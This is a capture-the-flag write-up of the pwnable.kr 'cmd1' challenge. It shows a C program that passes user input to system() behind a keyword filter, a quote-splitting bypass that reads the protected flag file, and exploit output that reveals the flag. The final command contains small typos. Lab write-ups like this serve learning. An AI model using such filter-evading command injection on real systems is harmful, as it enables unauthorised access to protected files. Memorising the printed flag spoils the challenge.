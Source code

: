 # cmd1

## Description

```Text
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)
```

## Analysis

```Shell
$ ssh fd@pwnable.kr -p2222
fd@pwnable.kr's password:
...

Last login: Sun Jun  6 02:43:55 2021 from 111.252.186.121
cmd1@pwnable:~$ ls -al
total 40
drwxr-x---   5 root cmd1     4096 Mar 23  2018 .
drwxr-xr-x 115 root root     4096 Dec 22 08:10 ..
d---------   2 root root     4096 Jul 12  2015 .bash_history
-r-xr-sr-x   1 root cmd1_pwn 8513 Jul 14  2015 cmd1
-rw-r--r--   1 root root      320 Mar 23  2018 cmd1.c
-r--r-----   1 root cmd1_pwn   48 Jul 14  2015 flag
```

Without the permission to the flag, let’s take a look at the source:

```C
cmd1@pwnable:~$ cat cmd1.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}

```

Our input will be used as the entry parameter of the `system()`. So we should think of the following command:

`./cmd1 "cat flag"`

But there are two problems:

- Environment variable

  When we execute `cat`(or another command), the system will find the executable file` cat` from the path specified by the environment variable `PATH`.

  However, the value of the environment variable path has been changed, so we need to use `/bin/cat xxx` instead of `cat xxx`.

- function `filter()`

  The function of filter is to determine whether there is a specific string in our input. If there is, it will be ignored and not executed.

  > Ps: If not filtering string "tmp", we can extract permissions through SUID

  So we need use `"fla"g` instead of `flag` to disable it.

The complete command is as follows:

`./cmd "/bin/cat \"fla\"g`

## Solution

Write-up: [exploit.py](exploit.py)

```Shell
$ python3 exploit.py 
[+] Connecting to pwnable.kr on port 2222: Done
[*] random@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process bytearray(b'./cmd1') on pwnable.kr: pid 228719
[+] Receiving all data: Done (48B)
[*] Stopped remote process 'cmd1' on pwnable.kr (pid 228719)
[+] mommy now I get what PATH environment is for :)
[*] Closed connection to 'pwnable.kr'
```
